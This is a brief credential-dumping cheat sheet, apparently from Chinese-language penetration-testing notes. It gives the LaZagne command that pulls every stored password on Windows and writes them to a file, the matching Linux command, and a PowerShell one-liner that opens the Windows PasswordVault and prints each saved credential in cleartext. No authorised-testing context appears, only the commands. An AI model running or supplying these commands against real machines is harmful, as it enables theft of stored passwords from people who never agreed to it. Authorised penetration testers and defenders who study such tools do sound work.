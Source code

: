   ### windows
 	https://github.com/AlessandroZ/LaZagne
	>laZagne.exe all -oN获取所有密码输出到文件
	Powershell
	PS>[Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
	PS>$vault = New-Object Windows.Security.Credentials.PasswordVault
	PS>$vault.RetrieveAll() | % { $_.RetrievePassword();$_ }
  ### Linux
	>python3 laZagne.py all